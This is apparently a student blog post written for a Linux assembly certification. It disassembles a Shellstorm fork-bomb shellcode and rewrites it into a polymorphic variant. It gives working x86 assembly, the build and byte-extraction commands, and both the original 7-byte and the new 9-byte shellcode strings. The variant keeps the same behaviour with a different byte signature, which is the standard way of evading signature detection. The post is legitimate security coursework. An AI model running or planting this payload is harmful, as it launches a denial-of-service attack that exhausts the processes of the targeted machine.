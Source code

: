 # Polymorphic conversion of three payloads - part 2

## Forkbomb

The shellcode chosen for this assignment comes from Shellstorm (Linux/x86 - forkbomb) and is located at 
<http://shell-storm.org/shellcode/files/shellcode-214.php>.

This shellcode claims to perform a fork bomb causing a denial of service on the host machine and has a length of **7 bytes**. Let's take the shellcode and decompile it.

```
> echo -ne "\x6a\x02\x58\xcd\x80\xeb\xf9" | ndisasm -b32 -

00000000  6A02              push byte +0x2
00000002  58                pop eax
00000003  CD80              int 0x80
00000005  EBF9              jmp short 0x0
```

The shellcode executes an infinite loop and call the fork syscall.

```
> man 2 fork
create a child process
pid_t fork(void);
```

Let's try to modify the syntax of the code without affecting the semantic.

```
; compile with:
; 	nasm -f elf32 shellcode-214-poly.asm
;	ld -o shellcode-214-poly shellcode-214-poly.o
; extract shellcode with:
; 	objdump -d shellcode-214-poly|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'

global _start
section .text
	_start:
		mov al,0x2  ; move the syscall number of fork in al
		and eax,0xf ; mask eax to ensure that the final value of eax is 0x2
		int 0x80    ; interrupt for calling fork syscall
		jmp _start  ; infinite loop
```

The resulting shellcode does not contains null bytes and is different from the initial one, however semantically the two shellcodes are identical. This new shellcode is *9 bytes* long.

```
\xb0\x02\x83\xe0\x0f\xcd\x80\xeb\xf7
```

Great! Analysis completed.

<br/>

---

*This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification.*

<http://securitytube-training.com/online-courses/security-tube-linux-assembly-expert>

*Student-ID: PA-8733*